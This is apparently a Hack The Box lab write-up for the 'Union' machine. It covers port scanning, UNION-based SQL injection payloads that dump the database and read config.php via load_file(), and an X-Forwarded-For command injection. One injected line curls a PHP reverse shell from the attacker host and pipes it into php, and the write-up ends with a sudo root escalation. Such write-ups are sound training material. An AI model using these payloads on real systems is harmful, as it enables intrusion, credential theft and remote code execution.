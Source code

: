 ```yaml
---
date: 2025-09-14
categories: [Linux, Medium]
---
```


![Union](https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/70ed2fa8b9c21114d688ba3f176c0198.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [ippsec](https://app.hackthebox.com/users/3769) & [Llo0zy](https://app.hackthebox.com/users/1615089)        | [Hack The Box](https://www.hackthebox.com/)     | Medium           | Linux   |

---








 Enumeration

- I began with a full TCP port scan, followed by a service and version detection scan on the discovered open ports:

	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.11.128 -oG scan
	/opt/extractports scan
	nmap -p80 -sCV 10.10.11.128 -oN ports
	```

	<img width="778" height="218" alt="image" src="https://github.com/user-attachments/assets/2b23f301-43bb-4998-a32d-a171adb59f64" />

- From the scan results, only port 80 (HTTP) was open.
## Initial Access (Web Enumeration)

- Using `ffuf`, I enumerated `.php` files in the root directory:

	```python
	ffuf -c -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.11.128/FUZZ.php --mc=200
	```

- The following files were discovered:

	`index.php`
	`firewall.php`
	`config.php`
	`challenge.php`

- Both `index.php` and `challenge.php` contained input fields that were sent to the server. Testing with SQL payloads revealed differences in responses, suggesting SQL injection was possible.

## Exploiting SQL Injection

- Injecting a single quote (`'`) and appending a comment sequence triggered diferent message, confirming SQL injection. Using a `UNION` injection, I successfully extracted database information:

	```python
	1' UNION SELECT database()-- -  
	-- november  
	
	1' UNION SELECT group_concat(schema_name) FROM information_schema.schemata-- -  
	-- mysql, information_schema, performance_schema, sys, november  
	
	1' UNION SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema='november'-- -  
	-- flag, players  
	
	1' UNION SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema='november' AND table_name='flag'-- -  
	
	1' UNION SELECT group_concat(one) FROM flag-- -  
	-- UHC{F1rst_5tep_2_Qualify}
	```

- Submitting the flag to `firewall.php` returned a success message, indicating that port **22 (SSH)** had been opened.

- Additionally, by leveraging `load_file()`, I retrieved the contents of `config.php` and extracted valid SSH credentials:

	```python
	player=a' union select load_file('/var/www/html/config.php');-- -
	```

- I then connected via SSH as user `uhc` and retrieved the first flag:

  ```python
  ssh uhc@10.10.11.128
  ```

## Privilege Escalation 

- Reviewing the source of `firewall.php`, I identified functionality that appended my IP address to an `iptables` command. Since the input was unsanitized, this was vulnerable to command injection through the `X-Forwarded-For` HTTP header.

- For example:

	```python
	X-FORWARDED-FOR: 1.1.1.1; whoami;
	```

- To gain a shell, I hosted a PHP reverse shell on my attacker machine and executed it remotely:

	```python
	X-FORWARDED-FOR: 1.1.1.1; curl http://10.10.14.16/rever.php | php;
	```

- This granted me a shell as the `www-data` user.

- Checking for sudo privileges revealed full root access without a password prompt:

	```python
	sudo -l
	```
	
- Since `www-data` could run any command as root, I obtained the root flag:

	```python
	sudo cat /root/root.txt
	```
